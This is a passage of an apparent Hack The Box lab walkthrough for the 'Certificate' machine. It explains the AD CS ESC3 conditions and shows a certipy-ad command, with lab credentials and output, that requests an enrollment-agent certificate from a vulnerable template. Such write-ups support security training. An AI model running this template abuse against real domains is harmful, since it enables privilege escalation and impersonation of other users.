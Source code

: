 For ESC3 we `require` `2 certificate templates` with the following configuration

- Template 1: Provides Enrollment Agent Certificate
– **Certificate Request Agent EKU** --> 1.3.6.1.4.1.311.20.2.1 is enabled.
– **Enrollment Rights** are enabled for a user that we control.
- Template 2: Allows Enrollment Agent Certificate to use on-behalf-of
– **Client Authentication EKU** --> 1.3.6.1.5.5.7.3.2 is enabled.
– **Application Policy Issuance Requirement** with **Authorized Signatures Required** enabled and set to 1 along with Certificate Request Agent EKU enabled.
– **Enrollment Rights** are enabled for a user that we control.



After reviewing users in BloodHound, none were immediately interesting, but we identified **ryan** as a member of **Domain Storage Managers**. We will target `ryan` and proceed with the ESC3 (Certificate Request Agent EKU) attack path.


<img src="assets/HTB/Certificate/image12.png" alt="Error loading image">

### ESC3 Abuse

Requests a certificate for the current user (lion.sk) using a vulnerable template (Delegated-CRA) that allows certificate delegation.

```
certipy-ad req -u 'lion.sk@certificate.htb' \        
            -p '!QAZ2wsx' \
            -dc-ip '10.10.11.71' \
            -target 'dc01.certificate.htb' \
            -ca 'Certificate-LTD-CA' \
            -template 'Delegated-CRA'
```
```
┌──(kali㉿kali)-[~/HTB/Certificate]
└─$ certipy-ad req -u 'lion.sk@certificate.htb' \        
            -p '!QAZ2wsx' \
            -dc-ip '10.10.11.71' \
            -target 'dc01.certificate.htb' \
            -ca 'Certificate-LTD-CA' \
            -template 'Delegated-CRA'
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 22
[*] Successfully requested certificate
[*] Got certificate with UPN 'Lion.SK@certificate.htb'
[*] Certificate object SID is 'S-1-5-21-515537669-4223687196-3249690583-1115'
[*] Saving certificate and private key to 'lion.sk.pfx'
[*] Wrote certificate and private key to 'lion.sk.pfx'
```